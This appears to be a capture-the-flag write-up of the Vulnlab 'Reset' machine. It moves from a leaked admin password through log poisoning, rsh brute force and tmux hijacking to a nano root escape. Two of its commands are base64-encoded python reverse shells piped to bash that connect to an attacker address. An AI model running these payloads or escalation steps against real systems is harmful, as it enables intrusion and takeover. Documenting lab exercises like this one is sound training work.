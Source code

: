 ```yaml
---
title: "[Linux] Vulnlab standalone: Reset"
date: 2025-02-07 00:00:00 +0800
tags: [vulnlab,practice,log-poisoning,tmux,rsh,linux,standalone]
categories: [vulnlab,practice,log-poisoning,tmux,rsh,linux,standalone]
---
```

![alt text](/assets/Reset/Reset-Image.png)
# Enumeration

## Port scan

```
# Nmap 7.94SVN scan initiated Fri Feb  7 16:34:12 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN ports -T4 -p- 10.10.92.110
Nmap scan report for 10.10.92.110
Host is up, received echo-reply ttl 63 (0.052s latency).
Scanned at 2025-02-07 16:34:12 CET for 42s
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE    REASON         VERSION
22/tcp  open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6a:16:1f:c8:fe:fd:e3:98:a6:85:cf:fe:7b:0e:60:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyAf6GPee+rQqSK2Xs/sDBPHvOh109nei1YDinqEqeQRyHAu7cYctKMIK5CFZojCtyJqLBB5Tmw7v6si1cjyBY=
|   256 e4:08:cc:5f:8e:56:25:8f:38:c3:ec:df:b8:86:0c:69 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILiu1L4RnPAcunzYAHckqjzFY2I4PHhzCheH+7SMZKnS
80/tcp  open  http       syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Admin Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
512/tcp open  exec       syn-ack ttl 63 netkit-rsh rexecd
513/tcp open  login?     syn-ack ttl 63
514/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  7 16:34:54 2025 -- 1 IP address (1 host up) scanned in 42.57 seconds

```

# Foothold

On port 80 there is a web server running exposing a login page:

![alt text](/assets/Reset/Reset-LoginPage.png)

Using the forgot password functionality we can notice how we can change a user password by only knowing the username. Let's see if this functionality can be used to **enumerate valid usernames**. I've tried the username `admin` just because it is a common username and instead of username enumeration I've found that the API actually leaks the password of the user if it does exists:

![alt text](/assets/Reset/Reset-AdminPasswordLeak.png)

So now we have valid credentials and we can login inside the application

```
admin:17363aff
```

We are now prompted with a page that allows us to read some log files:

![alt text](/assets/Reset/Reset-Dashboard.png)

By intercepting the request we may think that this endpoint is vulnerable to LFI:

![alt text](/assets/Reset/Reset-LFI.png)

However, there is an homemade WAF that restrict us on reading only files under `/var/log`. In this folder resides also the apache log file `access.log`, we may leverage this to perform a **log poisoning attack**

![alt text](/assets/Reset/Reset - LogPoisoning.png)

![alt text](/assets/Reset/Reset - RCE.png)


echo+cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuOC41LjEwIiw4MCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn|base64+-d|bash

![alt text](/assets/Reset/Reset-ReverseShell.png)


![alt text](/assets/Reset/Reset-FootholdFlag.png)

# Lateral Movement to sadm

By reading the content of the file /etc/passwd we discover two low privilege users inside this machine.

```text
sadm
local
```

We recall from the initial port scan that **rsh** port is open. Knowing possible usernames can help us bruteforce the password. A tool called rsh-grind can be used 

```shell
sudo perl rsh-grind.pl -U ./users.txt 10.10.92.110
```

![alt text](/assets/Reset/Reset-RSHBrute.png)

We got an hit for:

```text
sadm:sadm
```

This tools allows us to run any program so we can easily wet a reverse shell as sadm:


```shell
sudo perl rsh-grind.pl -U ./users.txt -c 'echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuOC41LjEwIiw5MDAyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL2Jhc2giKSc=|base64 -d|bash' 10.10.92.110
```

We can now drop in an ssh key to have a more stable connection.

# Privilege escalation

Running `linpeas` reveals a tmux session, we can attach to it using

![alt text](/assets/Reset/Reset-TMUXSession.png)

```shell
tmux attach -t sadm_session
```

The `tmux` session contains the plaintext credential for the user `sadm` and reveals that we can run `nano` as root.

![alt text](/assets/Reset/Reset-TMUXOutput.png)

We can break out of the nano editor spawning a shell as root using:

```shell
nano
^R^X
reset; sh 1>&0 2>&0
```

This will give us a working shell as root.


![alt text](/assets/Reset/Reset-RootFlag.png)
